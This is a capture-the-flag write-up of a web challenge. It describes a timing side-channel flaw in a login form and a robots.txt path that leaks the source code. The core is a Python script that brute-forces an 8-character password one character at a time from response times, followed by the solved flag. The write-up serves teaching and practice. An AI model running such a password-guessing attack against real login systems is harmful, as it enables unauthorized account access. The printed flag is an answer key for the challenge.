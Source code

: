 ### 0x00 Challenge:

**Description:**

>Have you heard about side-channel attacks? https://en.wikipedia.org/wiki/Side-channel_attack
>
>URL: http://168.119.247.237:5003/


### 0x01 Write-up:

The login in the URL is vulnerable to Timing Attack. In robots.txt a "/code" path is found that leaks the source code.

![](https://i.imgur.com/K8IMWZc.png)

You can automatize the task to get the password or test manually.

**Script to get the password:**
```python
#!/usr/bin/python3

import requests
from datetime import timedelta

final_password = ""

while len(final_password) < 8:
    for ch in "0123456789abcdefghijklmnopqrstuvwxyz":
        try:
            burp0_url = "http://168.119.247.237:5003/login"
            burp0_headers = {"Cache-Control": "max-age=0", "DNT": "1", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Safari/537.36", "Origin": "http://168.119.247.237:5003", "Content-Type": "application/x-www-form-urlencoded", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://168.119.247.237:5003/login", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,es;q=0.8", "Connection": "close"}
            burp0_data = {"password": final_password + ch, "submit": "Enviar"}
            r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
            print ("Testing: " + final_password + ch)

            if r.elapsed.total_seconds() < 0.8:
                final_password += ch
                break
        except:
            pass

print ("Password is: " + final_password)
```

You only need to login to get the flag

![](https://i.imgur.com/dDXbDEV.png)

<br> `Flag: DEKRA{T1m3_G03s_f4St}`
